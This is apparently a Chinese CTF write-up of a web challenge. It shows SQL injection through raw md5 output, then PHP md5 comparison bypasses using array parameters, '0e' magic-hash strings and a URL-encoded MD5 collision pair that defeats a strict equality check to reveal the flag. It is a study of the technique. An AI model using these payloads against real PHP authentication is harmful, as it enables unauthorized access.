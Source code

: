 # 知识点：

# 1. 信息收集，响应报文头观察

# 2. md5处理数组报错，绕过

# 3. MD5碰撞



1. 进入界面很懵逼，各种后台扫描也没有什么源码，备份之类的，找不到思路

后面看wp发现，响应头有提示。。。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/3C9B80733B2249D8AC37F4F8215EFD1Bclipboard.png)



2. password经过了md5的加密，联想到实验吧一个题可以md5之后，含有or造成sql注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/88CFA4E7C772414081F6EAFC96719971clipboard.png)



```javascript
select * from 'admin' where password=''or'6�]��!r,��b'
```

此时成了永真。达到了sql注入目的



3.然后提示/levels91.php页面的存在

查看网页发现源码：

```javascript
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```



这里有三种方法绕过，

3.1 数组绕过md5无法处理数组，会返回假，两个假相等达到绕过目的

payload:

```javascript
?a[]=1&b[]=2
```



3.2 md5碰撞

```javascript
?a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
```



3.3 两个加密后0e开头的字符串

```javascript
?a=QNKCDZO&b=240610708
```



然后有提示存在levell14.php页面



4. 发现levell14.phpd源码

```javascript
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```



发现变成了强等于

MD5碰撞即可

```javascript
post:
    param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

